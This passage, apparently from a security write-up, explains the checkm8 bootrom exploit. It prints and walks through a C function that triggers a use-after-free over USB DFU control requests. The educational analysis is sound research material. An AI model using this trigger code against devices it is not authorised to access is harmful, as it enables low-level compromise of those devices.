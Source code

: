 Here’s my function that triggers the use-after-free:

```c
bool checkm8TriggerUaF(device_t *device)
{
  unsigned usbAbortTimeout = 10;
  transfer_ret_t transferRet;

  while(sendUSBControlRequestAsyncNoData(&device->handle, 0x21, DFU_DNLOAD, 0, 0, 0x800, usbAbortTimeout, &transferRet)) {
    if(transferRet.sz < config.overwritePadding 
    && sendUSBControlRequestNoData(&device->handle, 0, 0, 0, 0, config.overwritePadding - transferRet.sz, &transferRet) 
    && transferRet.ret == USB_TRANSFER_STALL) {
      sendUSBControlRequestNoData(&device->handle, 0x21, DFU_CLRSTATUS, 0, 0, 0, NULL);
      return true;
    }
    if(!sendUSBControlRequestNoData(&device->handle, 0x21, DFU_DNLOAD, 0, 0, EP0_MAX_PACKET_SIZE, NULL)) {
      break;
    }
    usbAbortTimeout = (usbAbortTimeout + 1) % 10;
  }
  return false;
}
```

First of all, let’s discuss the while loop:

```c
while(sendUSBControlRequestAsyncNoData(&device->handle, 0x21, DFU_DNLOAD, 0, 0, 0x800, usbAbortTimeout, &transferRet)) {
  // ... //
  usbAbortTimeout = (usbAbortTimeout + 1) % 10;
}
```

So essentially what is happening here is that we are sending the required packet to set the global variables, but we continue sending it asynchronously with a shorter and shorter timeout until it is cancelled mid-way through. This is done to achieve the partially complete data phase state on the device.

It’s interesting to note that we never ever have to actually send data in order to trigger this use-after-free. Sending the `0x21, DFU_DNLOAD` request will set the global variables and set the global data phase variable to true.

```c
if(transferRet.sz < config.overwritePadding 
    && sendUSBControlRequestNoData(&device->handle, 0, 0, 0, 0, config.overwritePadding - transferRet.sz, &transferRet) 
    && transferRet.ret == USB_TRANSFER_STALL) {
    sendUSBControlRequestNoData(&device->handle, 0x21, DFU_CLRSTATUS, 0, 0, 0, NULL);
    return true;
}
```
